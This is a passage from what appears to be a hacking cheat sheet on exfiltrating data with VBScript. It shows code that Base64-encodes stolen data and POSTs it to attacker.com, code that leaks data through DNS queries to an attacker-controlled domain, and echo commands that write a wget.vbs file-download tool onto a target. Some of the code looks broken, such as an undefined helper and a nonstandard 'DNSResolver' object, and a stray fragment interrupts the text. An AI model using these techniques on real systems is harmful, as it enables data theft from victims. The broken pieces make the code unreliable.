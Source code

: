 To avoid detection and bypass security measures, data can be encoded before exfiltration. VBScript provides various encoding techniques, such as Base64 encoding, that can be used to encode the data before sending it to the attacker's machine.

```vbs
' Encode the data using Base64
Set objXML = CreateObject("Msxml2.DOMDocument.6.0")
Set objNode = objXML.CreateElement("base64")
objNode.DataType = "bin.base64"
objNode.Text = StreamToBase64(strContents)
strEncodedData = objNode.Text

' Send the encoded data to the attacker's machine using HTTP
Set objHTTP = CreateObject("WinHttp.WinHttpRequest.5.1")
objHTTP.Open "POST", "http://attacker.com/upload.php", False
objHTTP.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
objHTTP.Send "data=" & strEncodedData
```

#### 3. DNS Exfiltration

VBScript can also be used for exfiltrating data using DNS requests. This technique involves encoding the data and sending it as part of a DNS query to a controlled DNS server. The attacker can then capture the DNS queries and extract the exfiltrated data.

```vbs
' Encode the data using Base64
Set objXML = CreateObject("Msxml2.DOMDocument.6.0")
Set objNode = objXML.CreateElement("base64")
objNode.DataType = "bin.base64"
objNode.Text = StreamToBase64(strContents)
strEncodedData = objNode.Text

' Send the encoded data as part of a DNS query
strDNSQuery = "subdomain." & strEncodedData & ".attacker.com"
Set objDNS = CreateObject("DNSResolver")
objDNS.Query(strDNSQuery, 1, 1)
```

### Conclusion

VBScript provides various techniques for exfiltrating data from a target system. By leveraging these techniques, an attacker can transfer sensitive information to their machine without being detected. It is important for defenders to be aware of these techniques and implement appropriate security measures to prevent data exfiltration.
```bash
Attacker> python -m SimpleHTTPServer 80
```
**Qa'Hom**
```bash
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http =CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
```